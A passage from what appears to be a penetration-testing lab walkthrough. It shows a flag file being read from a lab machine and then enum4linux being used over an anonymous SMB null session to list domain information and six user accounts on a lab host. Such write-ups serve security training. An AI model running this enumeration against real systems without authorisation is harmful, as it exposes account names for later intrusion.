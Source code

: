 `cat /root/Desktop/flag`:
```
03ddb97933e716f5057a18632badb3b4
```

**Step 5**: *SMB Users*.

`enum4linux -U demo2.ine.local`:
```
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Feb 21 20:05:35 2024

 ========================== 
|    Target Information    |
 ========================== 
Target ........... demo2.ine.local
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ======================================================= 
|    Enumerating Workgroup/Domain on demo2.ine.local    |
 ======================================================= 
[+] Got domain/workgroup name: RECONLABS

 ======================================== 
|    Session Check on demo2.ine.local    |
 ======================================== 
[+] Server demo2.ine.local allows sessions using username '', password '' ←

 ============================================== 
|    Getting domain SID for demo2.ine.local    |
 ============================================== 
Domain Name: RECONLABS
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 ================================ 
|    Users on demo2.ine.local    |
 ================================ 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: john     Name:   Desc: 
index: 0x2 RID: 0x3ea acb: 0x00000010 Account: elie     Name:   Desc: 
index: 0x3 RID: 0x3ec acb: 0x00000010 Account: aisha    Name:   Desc: 
index: 0x4 RID: 0x3e9 acb: 0x00000010 Account: shawn    Name:   Desc: 
index: 0x5 RID: 0x3eb acb: 0x00000010 Account: emma     Name:   Desc: 
index: 0x6 RID: 0x3ed acb: 0x00000010 Account: admin    Name:   Desc: 

user:[john] rid:[0x3e8] ←
user:[elie] rid:[0x3ea] ←
user:[aisha] rid:[0x3ec] ←
user:[shawn] rid:[0x3e9] ←
user:[emma] rid:[0x3eb] ←
user:[admin] rid:[0x3ed] ←
enum4linux complete on Wed Feb 21 20:05:35 2024
```
